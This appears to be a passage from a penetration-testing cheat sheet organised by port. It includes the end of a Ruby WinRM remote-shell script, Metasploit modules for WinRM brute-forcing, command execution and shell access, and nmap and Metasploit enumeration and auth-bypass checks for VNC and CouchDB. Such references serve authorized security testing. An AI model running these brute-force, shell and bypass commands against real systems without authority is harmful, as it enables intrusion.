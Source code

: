 ```ruby
            upload_command = command.tokenize
            print("Uploading " + upload_command[1] + " to " + upload_command[2])
            file_manager.upload(upload_command[1], upload_command[2]) do |bytes_copied, total_bytes, local_path, remote_path|
                puts("#{bytes_copied} bytes of #{total_bytes} bytes copied")
            end
            command = "echo `nOK`n"
        end
        output = shell.run(command) do |stdout, stderr|
            STDOUT.print(stdout)
            STDERR.print(stderr)
        end
    end
    puts("Exiting with code #{output.exitcode}")
end
```

```
#Msf
msf > use auxiliary/scanner/winrm/winrm_login
    #Bruteforce
msf > use auxiliary/scanner/winrm/winrm_login
    #Running Commands
msf > use auxiliary/scanner/winrm/winrm_cmd
    #Getting Shells!
msf > use exploit/windows/winrm/winrm_script_exec

```

### Port 5800 / 5801 / 5900 / 5901 -  VNC

Be sure to decrypt any VNC password files with the following tool:
* https://github.com/jeroennijhof/vncpwd

```bash
# Enumeration
nmap -sV --script vnc-info,realvnc-auth-bypass,vnc-title -p <PORT> $IP
msf> use auxiliary/scanner/vnc/vnc_none_auth

# Connect to vnc using Kali
vncviewer [-passwd passwd.txt] $IP::5901

```
### Port 5984 - CouchDB

```bash
# Enumeration
nmap -sV --script couchdb-databases,couchdb-stats -p 5984 $IP
msf> use auxiliary/scanner/couchdb/couchdb_enum

curl http://IP:5984/
# The reply should look something like:
{"couchdb":"Welcome","version":"0.10.1"}

```
References :
* https://bitvijays.github.io/LFF-IPS-P2-VulnerabilityAnalysis.html​
